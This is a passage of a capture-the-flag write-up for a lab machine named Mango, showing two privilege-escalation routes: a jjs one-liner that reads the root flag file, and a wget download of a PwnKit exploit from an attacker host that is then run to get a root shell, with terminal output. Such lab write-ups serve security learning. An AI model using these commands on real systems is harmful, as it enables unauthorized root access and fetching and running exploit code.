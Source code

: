 Lets try to run the following:

```text
echo 'var BufferedReader = Java.type("java.io.BufferedReader");
var FileReader = Java.type("java.io.FileReader");
var br = new BufferedReader(new FileReader("/root/root.txt"));
while ((line = br.readLine()) != null) { print(line); }' | jjs
```

Nice! That worked and we were successfully able to read the root.txt flag.

![root_flag.png](../assets/mango_assets/root_flag.png)

### Something Extra

While I believe the above jjs privesc was the intended route, I always prefer to have an actual shell as root. Going back to my LinPeas output, I see it picked up another possibility to escalate privileges: PwnKit.

![pwnkit_linpeas.png](../assets/mango_assets/pwnkit_linpeas.png)

This is extremely simple to exploit, and is also extremely common on older, unpatched machines.

```text
admin@mango:/tmp$ wget http://10.10.14.13/PwnKit
--2023-05-09 16:33:32--  http://10.10.14.13/PwnKit
Connecting to 10.10.14.13:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 18040 (18K) [application/octet-stream]
Saving to: ‘PwnKit’

PwnKit              100%[===================>]  17.62K  --.-KB/s    in 0.08s   

2023-05-09 16:33:32 (233 KB/s) - ‘PwnKit’ saved [18040/18040]

admin@mango:/tmp$ chmod +x PwnKit
admin@mango:/tmp$ ./PwnKit
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@mango:/tmp# whoami
root
```

